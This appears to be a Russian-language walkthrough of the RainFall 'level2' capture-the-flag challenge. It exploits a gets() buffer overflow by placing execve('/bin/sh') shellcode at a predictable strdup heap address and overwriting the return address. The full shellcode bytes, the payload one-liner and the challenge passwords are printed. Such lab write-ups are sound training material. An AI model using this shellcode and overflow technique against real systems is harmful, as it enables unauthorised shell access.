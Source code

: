 ## HowTo

```
> su level2
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

### Инструменты:
- Ida Pro + hex rays
- peda (gdb + patterns)
- ltrace

**NB:** Для работы с файлом стягиваем его на локальную машину

### Анализ и ход решения

1. Анализируем `main`
```
> gdb ./level2
> disass main
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret  
```

- main вызывает функцию `p()` которая в си-представлении выглядит так (используем IdaPro)
```
char *p()
{
  char s; // [esp+1Ch] [ebp-4Ch]
  unsigned int v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(&s);
  v2 = retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 )
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(&s);
  return strdup(&s);
```

- вызывается `gets`, доступная для переполнения 
- проверяется, что адрес возврата не находится на стеке (проверка, что мы не подменили адрес возврата). Эта защита предотвращает попадает `shell code` на стек.

2. **Идея взлома** - попробуем исползовать кучу, вместо стека
```
> disass p
...
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
...
```

3. У нас есть вызов `strdup`, который, как известно, использует `malloc`, с помощью которого выделяет память на куче. 
Нам нужно найти адрес, который возвращает маллок

```
> level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff6f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                              = 0
gets(0xbffff5fc, 0, 0, 0xb7e5ec73, 0x80482b5
)                    = 0xbffff5fc
puts(""
)                                                               = 1
strdup("")                                                      = 0x0804a008
+++ exited (status 8) +++
```

- Мы видим, что при разном `input`, `malloc` всегда возвращает один и тот же адрес - `0x0804a008`

4. Нам нужно поместить `shell code` в нужным нам адрес на куче и затем подменить адрес возврата на нужным нам адрес на куче 
5. Находим `shell code` (используем базу shell-storm) http://shell-storm.org/shellcode/files/shellcode-575.php
```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

6. Находим смещение для переписывания адреса, записанного в `eip` (instruction pointer)
```
> gdb ./level2
> pattern create 100
> run < <(echo 'pattern')
...
> patts
Registers contain pattern buffer:
EIP+0 found at offset: 80
```
7. Готовим пейлоад для запуска
- размер `shell code`  - `21` байт
- `59` байта случайных данных (добиваем до оффсета `80`)
- `4` байта в конце - возвращаемый адрес

Откуда берем возвращаемый адрес: помним, что `malloc` возвращает `0x0804a008`
```
> python
> 0x0804a008.to_bytes(4, 'little')
b'\x08\xa0\x04\x08'
```
Итоговый payload
```
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a" * 59 + "\x08\xa0\x04\x08"' > /tmp/payload2
```

8. Запуск
```
> cat /tmp/payload2 - | ./level2
...
> whoami
... level3
> cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```